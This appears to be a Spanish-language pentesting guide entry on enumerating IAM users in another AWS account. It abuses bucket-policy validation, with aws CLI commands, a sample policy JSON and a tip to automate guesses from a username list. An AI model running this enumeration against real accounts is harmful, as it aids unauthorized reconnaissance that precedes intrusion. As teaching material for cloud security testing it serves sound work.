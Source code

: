 
## Enumeración de Usuarios IAM en Otras Cuentas

### Descripción
Esta técnica abusa de la validación de políticas IAM para identificar usuarios existentes en una cuenta objetivo, utilizando el ID de cuenta previamente obtenido.

### Pasos Clave
1. **Crear un Bucket S3 en la Cuenta del Atacante:**
   - Genera un bucket único:  
     ```bash
     aws s3 mb s3://mi-bucket-$RANDOM-$RANDOM-$RANDOM
     ```

2. **Definir una Política de Acceso:**
   - Crea una política que otorgue acceso a un usuario específico en la cuenta objetivo. Ejemplo en `grant-s3-bucket-read.json`:
     ```json
     {
         "Version": "2012-10-17",
         "Statement": [
             {
                 "Sid": "AllowUserToListBucket",
                 "Effect": "Allow",
                 "Resource": "arn:aws:s3:::mi-bucket-12345-67890-54321",
                 "Principal": {
                     "AWS": ["arn:aws:iam::123456789012:user/cloudadmin"]
                 },
                 "Action": "s3:ListBucket"
             }
         ]
     }
     ```
   - Aplica la política al bucket:  
     ```bash
     aws s3api put-bucket-policy --bucket mi-bucket-12345-67890-54321 --policy file://grant-s3-bucket-read.json
     ```

3. **Verificar Existencia:**
   - Si la política se aplica sin errores, el usuario existe.
   - Si retorna "Invalid principal in policy", el usuario no existe.

### Ejemplo Práctico
- Prueba con `arn:aws:iam::123456789012:user/admin`:
  - Éxito → El usuario "admin" existe.
  - Error → Prueba otro nombre como "nonexistent".
- Automatiza con una lista de nombres de usuarios potenciales.

---

